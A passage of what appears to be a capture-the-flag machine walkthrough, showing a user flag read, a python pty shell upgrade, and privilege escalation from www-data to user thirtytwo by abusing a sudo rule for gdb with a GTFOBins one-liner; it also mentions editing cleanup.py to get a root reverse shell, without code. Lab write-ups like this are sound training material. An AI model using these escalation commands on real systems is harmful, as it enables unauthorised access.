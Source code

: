 ```highlight
$ cd /home
$ ls
cleanup
d4rckh
thirtytwo
$ cd d4rckh
$ ls
cleanup.py
user.txt
$ cat user.txt
0f7dbb2243e692e<HIDDEN>
```

Ive redacted half the flag. Now its time to get root!

### Priv Esc

First I upgrade my shell.

```highlight
$ python -c 'import pty; pty.spawn("/bin/bash")'
```

In d4rckh home directory is a python script cleanup.py. Even as www-data you can edit that file and use it to get a reverse shell as root. However I don't believe this is the indented path just yet, first we need to become the d4rckh user. 

When I first get a shell on machine I always run 'sudo -l' to check for a quick win. 

```highlight
www-data@ubuntu-xenial:/home/d4rckh$ sudo -l
Matching Defaults entries for www-data on ubuntu-xenial:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ubuntu-xenial:
    (thirtytwo) NOPASSWD: /var/www/gdb
www-data@ubuntu-xenial:/home/d4rckh$ 
```

Im not disappointed, we can run the command gdb as the user thirtytwo. A quick look on [GTFObins](https://gtfobins.github.io/gtfobins/gdb/#sudo) shows I can use gdb to priv esc to the thirtytwo user.

```highlight
www-data@ubuntu-xenial:/home/d4rckh sudo -u thirtytwo /var/www/gdb -nx -ex '!sh' -ex quit
GNU gdb (Ubuntu 7.11.1-0ubuntu1~16.5) 7.11.1
Copyright (C) 2016 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.  Type "show copying"
and "show warranty" for details.
This GDB was configured as "x86_64-linux-gnu".
Type "show configuration" for configuration details.
For bug reporting instructions, please see:
<http://www.gnu.org/software/gdb/bugs/>.
Find the GDB manual and other documentation resources online at:
<http://www.gnu.org/software/gdb/documentation/>.
For help, type "help".
Type "apropos word" to search for commands related to "word".
$ 
$ id
uid=1004(thirtytwo) gid=1004(thirtytwo) groups=1004(thirtytwo)
$ cd /home/thirtytwo
$ ls
note.txt
$ cat note.txt
Hey 32, the other day you were unable to clone my github repository.
```